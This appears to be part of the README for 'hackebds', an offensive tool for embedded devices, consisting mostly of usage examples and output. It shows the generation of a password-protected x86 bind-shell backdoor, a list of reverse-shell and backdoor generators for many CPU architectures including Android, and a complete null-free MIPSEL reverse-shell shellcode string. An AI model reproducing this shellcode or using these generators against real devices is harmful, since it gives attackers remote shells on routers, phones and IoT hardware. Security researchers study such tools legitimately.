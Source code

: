 ```
>>> from hackebds import *
>>> x86_bind_shell(4466,"doud")
[+] bind port is set to 4466
[+] passwd is set to 'doud'
0x0000000064756f64
[*] waiting 3s
[+] x86_bind_shell is ok in current path ./
>>>
```

![image-20221028143802937](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028143802937.png)

Then connect to the port bound to the device (password exists)

![image-20221028144136069](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028144136069.png)

2. Generates the use-back shellcode (no free) null bytes corresponding to various architectures

```
>>> from hackebds import *
>>> mipsel_reverse_sl(reverse_ip,reverse_port)
>>> mips_reverse_sl(reverse_ip,reverse_port)
>>> aarch64_reverse_sl(reverse_ip,reverse_port)
>>> armelv5_reverse_sl(reverse_ip,reverse_port)
>>> armelv7_reverse_sl(reverse_ip,reverse_port)
>>> armebv5_reverse_sl(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
>>> mips64_reverse_sl(reverse_ip,reverse_port)
>>> mips64el_reverse_sl(reverse_ip,reverse_port)
>>> android_aarch64_backdoor(reverse_ip,reverse_port)
>>> x86el_reverse_sl(reverse_ip,reverse_port)
>>> x64el_reverse_sl(reverse_ip,reverse_port)
>>> powerpc_info.ppc_reverse_sl(reverse_ip,reverse_port)
>>> powerpc_info.ppcle_reverse_sl(reverse_ip,reverse_port)
>>> powerpc_info.ppc64_reverse_sl(reverse_ip,reverse_port)
>>> powerpc_info.ppc64le_reverse_sl(reverse_ip,reverse_port)
```

example:

```
>>> from hackebds import *
>>> shellcode=mipsel_reverse_sl("127.0.0.1",5566)
[+] No NULL byte shellcode for hex(len is 264):
\xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xea\x41\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01
```
